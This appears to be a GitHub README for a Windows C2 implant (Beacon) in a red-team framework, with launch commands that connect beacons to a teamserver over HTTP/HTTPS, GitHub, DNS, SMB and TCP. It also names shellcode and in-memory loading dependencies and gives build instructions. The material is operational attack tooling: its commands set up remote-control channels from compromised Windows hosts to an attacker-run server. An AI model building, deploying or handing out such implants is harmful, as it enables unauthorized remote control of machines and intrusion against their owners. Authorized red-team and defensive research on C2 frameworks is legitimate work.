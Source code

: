 # Exploration C2 Implant

## Overview

**Exploration** is a lightweight, modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Windows systems. The corresponding TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

This project includes multiple Beacons capable of communicating with the TeamServer through a variety of channels. Supported communication methods include HTTP/HTTPS, GitHub, DNS, SMB, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp.exe <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp.exe 10.10.10.10 8443 https
BeaconHttp.exe 10.10.10.10 8080 http

# GitHub
BeaconGithub.exe <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub.exe maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns.exe <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns.exe 8.8.8.8 bac.superdomain.com

# SMB
BeaconSmb.exe <LISTENER_IP> <PIPE_NAME>
BeaconSmb.exe 127.0.0.1 pipename

# TCP
BeaconTcp.exe <LISTENER_IP> <LISTENER_PORT>
BeaconTcp.exe 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project relies on several third-party libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Enables runtime DLL loading.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Executes PowerShell from unmanaged code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing.

### Preparing the Environment

Install prerequisites:

* [Chocolatey](https://chocolatey.org/install)
* CMake:

```bash
choco install cmake --pre
```

Initialize submodules and set up the build directory:

```bash
git submodule update --init
mkdir buildWindows
cd buildWindows
```

### Building the Windows Beacons and Modules

#### Windows x64

Using the "x64 Native Tools Command Prompt for VS":

```bash
# With tests and logging enabled:
cmake -G "Visual Studio 17 2022" -DWITH_TESTS=ON ..

# Without tests and logging:
cmake -G "Visual Studio 17 2022" ..

msbuild .\C2Implant.sln /property:Configuration=Release -m
```

Alternatively, open the generated `C2Implant.sln` in Visual Studio and build in **Release** mode. Ensure the Runtime Library is set to **Multi-threaded (/MT)**.

#### Windows x86

```bash
cmake -G "Visual Studio 17 2022" -A "Win32" ..
msbuild .\C2Implant.sln /property:Configuration=Release /p:Platform=Win32 -m
```

### Output Locations

* Compiled Beacons: `Release\Beacons`
* Compiled Module DLLs: `Release\Modules`
